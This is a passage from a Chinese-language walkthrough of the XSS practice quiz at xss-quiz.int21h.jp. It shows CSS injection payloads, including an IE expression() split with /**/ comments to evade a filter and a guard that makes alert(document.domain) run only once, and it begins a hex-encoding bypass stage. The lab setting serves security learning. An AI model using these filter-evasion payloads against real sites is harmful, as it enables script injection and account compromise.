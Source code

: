 查看回显

```
background-images:xxx(javaxxx:alert(document.domain));
```

查看源码

```
<input type="text" name="p1" size="60" style="background-images:xxx(javaxxx:alert(document.domain));" value="background-images:xxx(javaxxx:alert(document.domain));"> 
```

> 发现有过滤，无法执行
>
> 在 IE 中的 css 可以使用 expressions ,用 /**/ 作为注释绕过，注释会替换为空

构造 payload

```
hello:expre/**/ssion(alert(document.domain));
```

> 成功注入，但是发现代码一直在执行

修改 payload，添加逻辑

```
hello:expre/**/ssion(if(!window.x){alert(document.domain);window.x=1;})
```

>为如果 window.x 不成立（！表示取反，默认判断为条件成立，则执行代码，加上！表示不成立）则执行{}内的代码，{}中对 window.x 赋值为 1，所以执行 1 次后 if 条件不成立代码不会重复执行。

### 1.3 使用编码绕过过滤

###  1.3.1 Stage #15 十六进制绕过

> https://xss-quiz.int21h.jp/stage__15.php

**查找可控参数**

打开拦截，提交 hello

```
p1=hello
```

> 只有一个可控参数

**查看回显位置**

关闭拦截，查看源码

```
<script>document.write("hello");</script>
hello
```

> 两处回显

**判断能否执行 js 代码**

